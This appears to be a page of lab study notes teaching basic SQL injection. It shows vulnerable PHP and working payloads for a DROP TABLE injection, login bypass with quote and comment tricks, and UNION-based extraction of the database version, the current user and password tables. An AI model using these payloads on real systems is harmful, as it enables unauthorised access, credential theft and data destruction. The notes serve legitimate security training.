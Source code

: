 # 🚑 Basic injections:

An SQL injection occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input.

Let's imagine the following code:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

The query to the database would be:

```sql
select * from logins where username like '%$searchInput'
```

So with a single quote, we could break everything:

```php
'%1'; DROP TABLE users;'
#which would turn out like this:
select * from logins where username like '%1'; DROP TABLE users;'
```

Here are the differente sql injections:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's go more in depth with the famous login bypass:

```sql
admin' or '1'='1
```

The final query should look like this:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

What happens on rhe backend is:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

We can also try the inverted command and use OR statement on the password with the `'1'='1` or `' or '1' = '1`:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You can also use comments to bypass auth, the query looks something like this when you use comments:

```shell-session
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```

So we can inject `admin'--` as our username. The final query will be:

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

We can also target users:

```sql
SELECT * FROM logins where (username='admin')
```

_**Login as the user with the id 5 to get the flag.**_

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
') OR id =5 -- -
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Union

The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements. This means that through a `UNION` injection, we will be able to `SELECT` and dump data from all across the DBMS, from multiple tables and databases.

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.

If we wanted to use union statement on different numbers of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns.

To define how many columns a table has, we can use ORDER BY. We start with `order by 1`, then we will do `order by 2` and then `order by 3` until we reach a number that returns an error. If we failed at `order by 4`, this means the table has three columns

```sql
' order by 5-- -
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>So there are 4 columns</p></figcaption></figure>

We could also use the union command:

```sql
cn' UNION select 1,2,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now that we got the number of columns we can start injecting:

```sql
cn' UNION select 1,@@version,3,4-- -
```

`We cannot place our injection at the beginning, or its output will not be printed.`

This is the benefit of using numbers as our junk data, as it makes it easy to track which columns are printed, so we know at which column to place our query. To test that we can get actual data from the database 'rather than just numbers,' we can use the `@@version` SQL query as a test and place it in the second column instead of the number 2:

```sql
cn' UNION select 1,@@version,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Use a Union injection to get the result of 'user()'**_

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,user(),3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
